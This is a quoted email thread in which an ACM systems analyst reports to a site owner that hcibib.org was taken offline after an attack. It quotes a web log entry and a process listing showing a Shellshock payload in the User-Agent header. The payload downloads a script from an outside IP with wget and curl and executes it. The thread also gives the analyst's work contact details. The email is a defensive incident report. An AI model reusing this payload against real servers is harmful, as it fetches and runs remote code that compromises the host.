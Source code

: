 >>>>>>
>>>>>>> Hello Gary,
>>>>>>> I had to take the hcibib.org website offline tonight.   The site was used to execute a denial of service attack that took down the server.
>>>>>>> Here is the reference from the hcibib.org weblogs
>>>>>>>
>>>>>>> 62.75.145.250 - - [06/May/2015:12:12:39 -0400] "GET / HTTP/1.1" 200 10740 "-" "() { :; }; /bin/bash -c 'rm -rf /tmp/dd.sh /tmp/dd1.sh;wget http://62.75.145.250/dd.sh -O /tmp/dd.sh;curl http://62.75.145.250/dd.sh -o /tmp/dd1.sh;sh /tmp/dd.sh & sh /tmp/dd1.sh 0>&1'"
>>>>>>>
>>>>>>> I put the entire weblog for today to your /home/Perlman
>>>>>>>
>>>>>>> The request executed a denial of service attack that started this.
>>>>>>> apache   28593     1  0 12:12 ?        00:00:00 /bin/bash -c rm -rf /tmp/dd.sh /tmp/dd1.sh;wget http://62.75.145.250/dd.sh -O /tmp/dd.sh;curl http://62.75.145.250/dd.sh -o /tmp/dd1.sh;sh /tmp/dd.sh & sh /tmp/dd1.sh 0>&1
>>>>>>>
>>>>>>> Attached is a sample of what was running on the server.
>>>>>>>
>>>>>>> I have changed the default document root of the website until I hear from you.  I would prefer to bring the site back online restricted to the IP address that you will be connecting from so that you have time to properly examine you site and then we can open it back up.  Please let me know the IP address you will be connecting from and I will make the appropriate configuration changes.
>>>>>>>
>>>>>>> Thanks
>>>>>>> Adam
>>>>>>>
>>>>>>>
>>>>>>> Adam Greenberg
>>>>>>> Senior Systems Analyst
>>>>>>> Association for Computing Machinery
>>>>>>> 2 Penn Plaza
>>>>>>> Suite 701
>>>>>>> New York, NY 10121
>>>>>>> Office: 212-626-0573
>>>>>>> greenberg@acm.org
>>>>>>>
>>>>>>>
>>>>>>
>>>>>>
>>>>>
>>>>>
>>>>
>>>> --
>>>>
>>>
>>>
>>
>>
>
>

-- 

